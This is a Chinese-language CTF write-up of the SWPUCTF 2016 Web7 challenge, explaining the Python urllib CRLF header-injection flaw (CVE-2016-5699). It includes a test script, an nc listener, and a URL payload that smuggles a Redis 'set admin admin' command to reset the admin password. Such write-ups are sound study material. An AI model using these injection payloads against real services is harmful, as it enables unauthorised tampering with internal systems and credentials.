 ```yaml
---
title: '[SWPUCTF 2016]Web7'
date: 2025-02-23 16:32:06
tags: 
      - 漏洞
      - urllib注入
      - crlf 
categories: 刷题笔记
---
```


## [SWPUCTF 2016]Web7

打开页面，就一个登录和提交的按钮

我们随便输入什么提交，发现报错了

![image-20250223195354255](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502231954359.png)

通过报错信息，我们可以发现python的版本是2.7，并且使用了urllib2

通过查询，我们得知了urllib2头注入漏洞（CVE-2016-5699）

16年的老洞

漏洞验证代码为

1.py

```py
#!/usr/bin/env python3

import sys
import urllib
import urllib.error
import urllib.request

url = sys.argv[1]

try:
    info = urllib.request.urlopen(url).info()
    print(info)
except urllib.error.URLError as e:
    print(e)
```

我们本地开启nc监听端口

```
nc -l -p 12345
```



然后正常运行访问

```
./1.py http://127.0.0.1:12345/foo
```

我们在nc中收到如下报文

![image-20250223203326626](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502232033719.png)



现在，我们在IP地址和端口之间的分隔符即`:`之前进行CRLF注入，尝试注入两个HTTP头字段：

```
./1.py http://127.0.0.1%0d%0aX-injected:%20header%0d%0ax-leftover:%20:12345/foo
```

然后在nc中接收到如下报文：

```
GET /foo HTTP/1.1
Accept-Encoding: identity
User-Agent: Python-urllib/3.4
Host: 127.0.0.1
X-injected: header
x-leftover: :12345
Connection: close
```

我们可以看到，在Host头字段处获取主机IP地址时成功进行了CRLF注入，两个请求头成功注入

另外，在针对的是域名而非IP地址的场景进行利用的时候有个注意点，就是在域名后进行CRLF注入之前要插入一个空字符如`%00`，这样才能顺利地进行DNS查询。



回到题解，之前login说我们需要admin的密码

这题解就是通过urllib注入redis，修改admin密码

```
http://127.0.0.1%0d%0a%0d%0aset%20admin%20admin%0d%0aHost:%20127.0.0.1:6379
```

我们将payload提交，发完后立马登录，因为靶机写了脚本定时修改admin密码

得到flag

![image-20250223204349559](https://insey.oss-cn-shenzhen.aliyuncs.com/kin/202502232043593.png)

#### urllib为什么能攻击到redis

CRLF（Carriage Return Line Feed）攻击本质上是利用HTTP请求中换行符的特殊性质来操控服务器的响应。具体到Redis，它是基于协议的服务器，而其通信协议（RESP，Redis Serialization Protocol）要求客户端发送一系列特定格式的命令和数据。如果攻击者在发送请求时能够控制消息格式中的换行符，便可以造成一些潜在的安全问题。
